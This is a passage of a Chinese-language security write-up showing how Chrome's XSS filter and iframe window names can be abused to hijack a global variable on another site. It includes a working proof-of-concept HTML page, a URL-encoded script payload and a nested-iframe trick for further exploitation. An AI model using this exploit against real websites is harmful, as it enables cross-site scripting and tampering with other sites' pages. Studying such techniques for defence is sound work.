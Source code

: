 利用的poc如下,修改A.html如下：

```html
<script>
    function loaded(x){
        x.contentWindow.frames[0].location = "http://A.com/index.html"; // 修改为跟A.com同源，这样在修改此iframe的name的时候就不会被同源策略block
        setTimeout(function() {
            console.log('setting viewer...');
            x.contentWindow.frames[0].name = "VUL"; // 重新定义全局变量
        },1000);
    }
</script>

<!--  
    http://B.com/B.html?xss=%3Cscript%3E%0A%20%20%20%20%20VUL%20=%20%22Hijack%20me%22;%0A%3C/script%3E
    利用chrome的filter模式去掉 VUL 的定义 
-->

<iframe  src="http://B.com/B.html?xss=%3Cscript%3E%0A%20%20%20%20%20VUL%20=%20%22Hijack%20me%22;%0A%3C/script%3E" onload="loaded(this)"></iframe>

```

然后访问 A.com/A.html ，就会发现 B.com/B.html 中的 `VUL` 已经被劫持了。

## 0x6 进一步利用

由于我们控制了 `B.com/B.html` 中的 iframe 指向了 `http://A.com/index.html` , 所以此时 B 想访问 `VUL` 对象的子属性是不行的，因为是跨域的。 

比如 `B.com/B.html` 有如下代码：

```javascript
    function test(){
        // 不能用alert ，alert 会尝试访问 VUL window对象的特有方法，会爆跨域错误
        // console.log(VUL);
        config  = VUL.config ； // 这一句一定会报错
        alert(config.name); // 也一定会报错 。。。。
    }
```

为了解决这个问题，我们还可以在 `http://A.com/index.html` 这个页面上做文章，做法就是再插入一个iframe 

```html
<!-- http://A.com/index.html -->
<!-- http://B.com/C.html 是存在的 -->
<iframe  name="config" src="http://B.com/C.html" ></iframe> 

```

此时在 B.com 访问 `VUL.config` 就不会报错，而且访问 `config.name`时，如果 `http://B.com/C.html` 存在这个全局变量就不会报错，因为此时 `B.com` 访问 `VUL.config` 的一切属性都不会报错了，因为没有跨域。
